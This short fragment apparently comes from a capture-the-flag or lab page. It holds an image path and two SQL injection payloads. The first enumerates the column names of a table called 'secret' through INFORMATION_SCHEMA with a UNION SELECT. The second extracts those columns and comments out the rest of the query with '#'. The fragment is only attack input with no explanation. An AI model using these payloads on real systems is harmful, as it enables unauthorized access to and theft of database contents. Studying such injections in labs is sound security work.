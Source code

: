 <pre>
' union SELECT 1,2,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = database() AND TABLE_NAME = 'secret'#
' union SELECT 1,dfgfddfgdfdfdf,dfgdfgfdg FROM secret#
</pre>